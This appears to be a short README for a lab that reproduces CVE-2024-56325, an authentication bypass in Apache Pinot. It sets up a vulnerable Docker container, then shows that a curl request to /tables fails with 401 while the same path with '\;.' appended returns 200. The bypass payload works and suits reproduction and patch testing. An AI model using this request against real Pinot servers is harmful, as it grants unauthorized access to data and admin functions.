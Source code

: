 # setup vulnerable version
```bash
docker build -t pinot-jdk21-debian:latest .
docker run --rm -p 9000:9000 --name pinot-CVE-2024-56325 pinot-jdk21-debian:latest
```
# test vulnerable version
```bash
curl -v http://localhost:9000/tables
# 401 Unauthorized
# {"code":401,"error":"HTTP 401 Unauthorized"}
curl -v http://localhost:9000/tables\;.
# 200 OK
# {"tables":[]}
```